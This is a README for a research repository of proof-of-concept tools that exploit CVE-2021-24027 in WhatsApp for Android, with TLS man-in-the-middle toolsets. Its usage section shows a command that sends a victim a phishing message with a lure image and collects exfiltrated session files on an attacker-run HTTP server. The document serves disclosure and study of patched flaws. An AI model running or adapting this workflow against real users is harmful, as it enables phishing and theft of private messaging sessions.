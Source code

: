 # WhatsApp MitD & MitM

## Introduction

This repository contains PoC code and tools that were developed as part of our
research [01] on remotely exploiting *Man-in-the-Disk* (MitD) vulnerabilities on
WhatsApp for Android. As discussed in our blog post, the code and accompanying
scripts found here, were used to exploit CVE-2020-6516 (Chrome) [02] and
CVE-2021-24027 (WhatsApp) [03].

The structure of this repository is as follows:

* The current directory contains the Python tool that hooks WhatsApp using Frida,
  sends the phishing message carrying the CORS bypass payload and runs an HTTP
  server, where exfiltrated session files from the victim device are sent to.

* **tls12\_psk\_extract/** contains the TLS v1.2 MitM toolset. See **README.md**
  in that directory for more information on how to prepare a MitM environment.

* **watls\_psk\_extract/** contains the TLS v1.3 (WaTLS) MitM toolset. See
  **README.md** in that directory for more information on how to prepare a MitM
  environment.

* **openssl-1.1.1f-patches/** contains OpenSSL 1.1.1f patches required for
  setting up TLS v1.2 and/or TLS v1.3 MitM environments.

* **secrets/** holds a simple shell script and an OpenSSL configuration for
  generating certificates similar to those used by the WhatsApp TLS v1.3
  infrastructure. The generated keys and certificates can be used for both
  TLS v1.2 and v1.3 MitM.

* Last but not least, **misc/** contains various Frida scripts that were used
  for testing and debugging purposes during our research and might be helpful to
  other researchers.


## Usage

To test the PoC you need an Android device running WhatsApp 2.20.206.22 [04].
Even though our code was initially developed for 2.19.355, and so you can find
the corresponding snippets under **frida_scripts/**, that version it is nowadays
considered "expired" and won't work.

Before firing up the PoC, it is a good idea to compile as little as possible of
WhatsApp's DEX code. Doing so might proactively help in avoiding issues like
Frida not being able to hook specific methods.

    adb shell
    am force-stop com.whatsapp
    pm compile -f -m space com.whatsapp
    am start com.whatsapp/.Main

Download Frida server and push it on your Android device under **/data/local/tmp**,
leaving the default file name as is. Version 12.8.10 is tested and known to work
well. Feel free to download a more recent one if you prefer to. The PoC will
automatically detect the Frida server binary and will attempt to execute it with
the appropriate command line arguments.

    cd /tmp
    curl -O https://github.com/frida/frida/releases/download/12.8.10/frida-server-12.8.10-android-arm64.xz
    xz -d frida-server-12.8.10-android-arm64.xz
    adb push frida-server-12.8.10-android-arm64 /data/local/tmp

The main logic of the exploit is implemented in **main.py**. Files **adb.py**
and **frida_util.py** are trimmed down versions of tools that we use internally
for various debugging tasks on Android devices.

To run the PoC, attach your Android device on your computer and run the
following command:

    python3 main.py -s ANDROID_SERIAL -a 192.168.1.100 -p 8000 -r \
        images/the_guardian.jpg MOBILE_NUMBER@s.whatsapp.net "Rush for Mediterranean gas"

The command line switches passed to **main.py** are the following:

* `-s` - The serial number of the Android device to use, in case the attacker
  has multiple Android devices attached on her computer.

* `-a` and `-p` - Address and port, respectively, of the HTTP server where the
  exfiltrated sessions will be sent to.

* `-r` - Instructs **main.py** to start the aforementioned HTTP server on the
  local computer. If you don't pass `-r`, make sure you run **server.py** on the
  host specified by `-a` and `-p`.

Positional arguments are the following:

* **images/guardian.jpg** - A JPG image that will be used as a fake message
  preview, in order to lure the victim into clicking on it.

* **MOBILE_NUMBER@s.whatsapp.net** - The victim's mobile phone number in WhatsApp
  format. This is usually the country prefix followed by the mobile number. For
  example, Greek numbers (+30) look like `301234567890@s.whatsapp.net`.

* **"Rush for Mediterranean gas"** - An arbitrary string to be used as the
  message caption.

For a real life usage example, have a look at our blog post, and more specifically
at the demonstration videos.


## References

[01] <https://census-labs.com/news/2021/03/07/whatsapp-mitd-remote-exploitation-CVE-2021-24027/>

[02] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-6516>

[03] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24027>

[04] <https://www.apkmirror.com/apk/whatsapp-inc/whatsapp/whatsapp-2-20-206-22-release/whatsapp-messenger-2-20-206-22-android-apk-download/>


